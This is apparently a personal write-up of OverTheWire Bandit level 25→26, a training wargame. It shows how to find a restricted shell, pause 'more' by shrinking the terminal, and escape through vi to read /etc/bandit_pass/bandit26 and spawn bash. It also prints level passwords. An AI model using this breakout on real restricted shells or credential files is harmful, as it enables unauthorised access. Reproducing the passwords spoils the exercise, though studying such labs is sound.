 # Bandit Level 25 → Level 26

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd



```
ssh bandit25@bandit.labs.overthewire.org -p 2220
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

ls #bandit26.sshkey

cat /etc/passwd|grep bandit26
#bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

cat /usr/bin/showtext
/*
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
*/

缩小终端窗口以暂时中断more命令
ssh -i bandit26.sshkey bandit26@localhost
按v调用vi编辑器

:r /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
:set shell=/bin/bash
:sh
Good job getting a shell!
```

